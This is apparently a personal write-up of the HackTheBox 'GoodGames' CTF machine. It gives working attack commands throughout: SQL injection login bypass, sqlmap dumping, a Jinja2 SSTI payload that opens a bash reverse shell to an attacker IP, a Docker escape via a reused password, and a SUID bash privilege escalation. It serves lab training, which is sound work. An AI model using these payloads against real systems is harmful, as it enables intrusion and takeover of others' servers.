 # This is the Writeup of the HackTheBox machine "GoodGames"

Well hello there! I just finished another HackTheBox machine called "GoodGames" and I decided to make my own writeup to better understand everything that has happened during my pwning. I have learned a couple of new things that honestly I thought work differently, but without further ado, let's start B)

The challenge obviously starts with doing an nmap scan. For this, I really like to use this command : `nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.130` as `-sV` enables version detection, `-Pn` disables host discovery and treats all hosts as online, `-sC` enables script scanning using the default set of Nmap scripts, `-v` makes the output more verbose, `-p-` indicates that all ports will be scanned and `-oN scan` specifies the format and location for the output (that in this case is called "scan").

```Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```


**Don't forget to add goodgames.htb to your /etc/hosts !!!**

Well, the scan didn't show much, so we begin to poke around the main site. What is interesting (for hackers, obviously...) is the login form. We need to provide email and password to be logged into our account. At first, I spend some time poking around with JWT tokens - but it was not the correct way of thinking. I gave up on trying to bruteforce/guess admin's password, as for logging we were using email address, which I didn't know (at this point). After looking up other writeups, it turned out that I should have tried the infamous **SQL INJECTION**. Apparently, even though we had to provide email address in loging form, if we used typical SQL injection payload `email=admin' or 1=1 -- -` we still got logged in as admin (sick!). Now that's a surprise! If we were able to exploit the `email` field with our famous payload, we could test it using tool called `sqlmap`. All we had to do was to intercept our burp request during loging, save it as `request.txt` and then use command like `sqlmap -r request.txt`. This results in a dumped database with usernames and password hashes. Bingo! Now we just need to crack the admin's password and we are ready to go!

I used one of my favourite sites for cracking common passwords: https://crackstation.net. It turns out that our admin uses a really weak password: "superadministrator". This is pathetic... But now we are able to log into the admin's account and try to find a way to mess things up. 
In admin's panel, we can find info about another site called `internal-administration.goodgames.htb`.  
  
**Remember to add this address to your /etc/hosts !!!**  
  
After visiting this page, we are greeted by a big login form called "_Flask Volt_" (Flask is a python web application framework). I wonder... What if our admin was really lazy and used the same password couple of times?  
Bingo!  
We can log into the app!  

Here comes the tricky part. I want to be completely honest with you, I lost my patience and looked up what to do next on some another writeup. But hey, that's probably why you are here! That's nothing to be ashamed of, we all have been there. At the end of the day, by overcoming new obstacles, you're learning many valuable things. But anyway - back to the point :)

In the `settings` section, you are able to set you username, date of birth and phone number. And remember this one thing:  
  
**IF YOU ARE PENTESTING A PYTHON ENVIRONMENT, THERE IS A BIG CHANCE OF _SSTI_ VULNERABILITY**.  
  
I'm not even a pentester, but that's how life works. If you see python - it will be either SSTI or some other deserialization. But now, when I am writing this writeup, it is easy to say I guess...
Well, back to the point. If you try a payload in a name field to be `{{7*7}}`, the generated name will be `49`. That's nice, we found vulnerability. Now you need to identify the Template Engine. There is a couple of ways to do this, but I really like this article: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
If you identify it correctly, you will know that we have just found the Jinja2 Template Engine! Now, let's craft a payload.
The most common payload looks like this: `{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/<ip>/<port> 0>&1').read()}}`, unfortunately, when I tried this, it didn't work. So, good way of thinking is to base64 encode our payload and use `${IFS}` as a `space` character. If we base64 encode our `bash -i >& /dev/tcp/<ip>/<port> 0>&1` part, our final payload would look like this: `{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<BASE64 ENCODED PART>${IFS}|base64${IFS}-d${IFS}|bash').read()}}`.

Pheeew, that was intense! Now let's setup a netcat listener using command `nc -lvnp 1337`, change name in the app to the previously given payload, and wait for magic to happen.  
Badaboom!  
We just landed our reverse shell!  

But what has happened?? Why are we root immediately?? Why is there no root.txt flag??? I'll explain! We are in a docker container. You can know this after seeing that after using `ls -la`, you see the user id's instead of user name's when listing files. Also, when you use `mount` command, you can see that there is "augustus" home directory mounted to this docker. Let's check the IPv4 of our container! Hmmmm... Why is it 172.19.0.2 instead of 172.19.0.1? Is there something running on the 172.19.0.1? There is only one way to find out! And maybe, just maybe our user is really, really lazy, and has used the same password third time!? But to do this, we need to be able to use `ssh`. Now we are not. Try this command: `script /dev/null bash`. It will start a new interactive Bash shell session, but all the input and output of the session will be discarded. Now, after `ssh augustus@172.19.0.1` and using the same password as before, we are able to log in as augustus.  

The last part of our journey is getting root access.
  
**REMEMBER, WHEN YOU HAVE ACCESS TO A DOCKER CONTAINER WITH A MOUNTED FILESYSTEM OR ABILITY TO MOUNT, THERE IS A HIGH POSSIBILITY THAT YOU WILL NEED TO CLONE A BINARY LIKE /BIN/BASH AND GIVE IT THE SUID BIT OR DO SOMETHING VERY SIMMILAR**. 
  
So that's exactly what we will do! Let's go to the augustus home directory and copy the /bin/bash binary (`cp /bin/bash .`). Now let's use `logout` to go back to docker container. Look at this! There is our copied bash binary and we have root access and complete freedom in modyfing it's permissions! So nw, let's change the owner of this binary: `chown root:root bash`, then let's add SUID bit: `chmod s+u bash`. Now let's log again as augustus and if we did everything perfectly, you should be able to execute bash binary from augustus home directory with elevated privileges. If you execute `./bash -p`, you should become _root_.  

Thank you so much for reading this writeup. This means a lot to me and I hope you learned something new, as I certainly did :) If you have any suggestions please write to me and I'll try to make my writeups better and better. See you!


